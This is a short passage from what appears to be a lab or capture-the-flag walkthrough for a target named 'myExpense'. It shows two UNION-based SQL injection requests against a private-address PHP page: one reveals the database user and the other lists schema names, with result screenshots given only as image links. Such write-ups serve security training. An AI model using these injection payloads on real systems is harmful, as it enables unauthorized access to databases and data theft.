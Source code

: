 ```sql
192.168.0.24/site.php?id = 2 union select 1,user()--
```

![myExpense](../assets/img-content/myExpense(22).png)

```sql
192.168.0.24/site.php?id = 2 union select 1,schema_name from information_schema.schemata-- -
```

![myExpense](../assets/img-content/myExpense(23).png)

![myExpense](../assets/img-content/myExpense(24).png)
